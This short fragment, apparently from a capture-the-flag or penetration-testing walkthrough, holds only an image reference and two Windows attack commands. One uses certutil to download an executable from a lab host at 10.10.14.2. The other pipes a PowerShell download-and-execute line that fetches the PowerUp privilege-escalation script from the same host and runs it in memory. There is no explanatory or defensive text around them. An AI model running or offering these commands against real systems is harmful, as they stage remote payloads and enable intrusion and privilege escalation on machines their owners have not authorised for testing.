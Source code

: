 

certutil -urlcache -f  http://10.10.14.2/chimi.exe chimi.exe

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/PowerUp.ps1') | powershell -noprofile -
